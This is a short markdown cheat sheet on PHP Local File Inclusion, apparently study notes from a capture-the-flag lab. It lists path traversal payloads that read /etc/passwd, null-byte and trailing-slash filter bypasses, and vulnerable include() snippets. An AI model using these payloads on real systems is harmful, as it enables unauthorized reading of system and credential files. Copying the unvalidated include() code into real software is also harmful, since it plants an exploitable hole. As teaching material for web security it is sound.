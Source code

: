 # LFI

## Payloads

```shell
../../../../etc/passwd
../../../../etc/passwd/.
../../../../etc/passwd%00
....//....//....//....//....//etc/passwd

Example:
http://10.10.13.178/lab6.php?file=THM-profile/../../../../etc/os-release%00
```

## Case 1 | Basic Get request

```php
<?PHP 
	include($_GET["lang"]);
?>
```
A `GET` request via URL parameter `lang` to include the file of the page. This can be calld with:  
`http://homepage.com/index.php?lang=EN.php` to load the `EN.php`.

If there isn't a input validatione, we can read any file e.g. `/etc/passwd`. We can try the following:   
`http://homepage.com/get.php?file=/etc/passwd`.
That is possible because the `include` function has no validation.

## Case 2 | Given directory

```php
<?PHP 
	include("languages/". $_GET['lang']); 
?>
```

The directory is given but if there is no input validation, we can `path traversal` with the following payload  
`http://homepage/index.php?lang=../../../../etc/passwd`

## Null byte

```php
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/website/index.php on line 12
```

We could move outside the php directory but still, the include function reads reads the input with `.php` at the end. This is because the developer specified the file type.  
With a NULL BYTE we can bypass this: `%00` or hex `0x00`
Everthing behing this is beeing ignored. 

**NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.**

## Keyword filter

```shell
website/index.php?file=../../../../etc/passwd/.
```

The last `/.` is qual to a simple `cd` so you stay in the same directory
